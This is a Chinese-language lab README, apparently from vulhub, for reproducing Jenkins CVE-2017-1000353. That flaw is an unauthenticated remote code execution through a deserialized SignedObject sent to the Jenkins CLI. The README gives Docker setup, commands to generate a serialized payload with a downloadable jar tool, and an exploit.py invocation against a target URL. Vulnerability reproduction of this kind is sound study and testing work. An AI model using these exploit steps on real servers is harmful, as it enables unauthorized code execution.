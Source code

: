 # Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）

Jenkins 是一个广泛使用的开源自动化服务器。

Jenkins 2.56 及更早版本以及 2.46.1 LTS 及更早版本存在未授权的远程代码执行漏洞。这个未经身份验证的远程代码执行漏洞允许攻击者向 Jenkins CLI 传输序列化的 Java `SignedObject` 对象，该对象会使用新的 `ObjectInputStream` 进行反序列化，从而绕过现有的基于黑名单的保护机制。

参考链接：

- <https://www.jenkins.io/security/advisory/2017-04-26/>
- <https://www.exploit-db.com/exploits/41965>

## 环境搭建

执行如下命令启动 Jenkins 2.46.1：

```
docker compose up -d
```

等待服务器完全启动后，访问 `http://your-ip:8080` 即可看到 Jenkins 已成功运行，无需手动安装。

## 漏洞复现

漏洞利用过程分为两个步骤：生成恶意序列化载荷，并将其发送至目标 Jenkins 服务器。

首先，下载 [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar) 工具来生成 payload。这个工具将创建一个包含我们命令的序列化对象：

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser 是生成的输出文件名
# "touch ..." 是要执行的命令
```

**注意**：生成payload时的Java版本很重要，建议使用OpenJDK 8u292版本。其他版本的Java可能导致生成的payload无法成功利用。如果遇到问题，可以使用以下命令在Docker中生成payload：

```bash
docker run --rm -v $(pwd):/tmp openjdk:8u292 bash -c "cd /tmp && java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser \"touch /tmp/success\""
```

执行上述命令后，将生成一个名为 `jenkins_poc.ser` 的文件，其中包含序列化后的 payload。

接下来，下载 [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) 脚本，并使用 Python 3 执行以发送 payload：

```bash
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

![发送漏洞利用载荷](1.png)

要验证漏洞利用是否成功，请检查容器内是否创建了指定文件：

![命令执行验证](2.png)

`/tmp/success` 文件的存在证实了远程代码执行成功。

